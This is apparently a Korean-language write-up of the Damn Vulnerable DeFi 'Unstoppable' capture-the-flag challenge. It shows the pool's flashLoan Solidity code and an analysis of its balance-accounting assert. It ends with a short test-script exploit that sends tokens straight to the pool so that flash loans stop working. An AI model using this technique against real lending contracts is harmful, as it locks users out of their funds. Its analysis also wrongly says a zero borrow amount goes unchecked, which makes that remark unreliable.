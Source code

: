 ```solidity
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(
            address(damnValuableToken),
            borrowAmount
        );

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}
```

### 목표

flashloan의 기능을 마비 시키는 것이 목적

test code 상 flashloan으로 10 토큰을 빌리는데 실패하면 성공

### 분석

flashloan함수는 borrowAmount 0을 체크하지 않음.

poolBalance는 state variable로 deposit 함수로 업데이트.

### 공격

별도의 컨트랙트를 작성하지 않고 컨트랙트의 state를 변경.

require나 assert의 조건을 체크

transfer 이행 전에 `assert(poolBalance == balanceBefore);` 를 확인. 

balanceBefore는 함수 내에서 가져오지만 poolBalance는 depositTokens()에서 업데이트 된 것을 사용. transfer를 별도로 test 스크립트에서 이행하여 poolBalance 정보가 달라지게 함. 

위 `assert(poolBalance == balanceBefore);`조건에 위배되어 플래시론 수행 불가.

```solidity
it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    await this.token.connect(attacker);
    await this.token.transfer(
      this.pool.address,
      INITIAL_ATTACKER_TOKEN_BALANCE
    );
  });
```
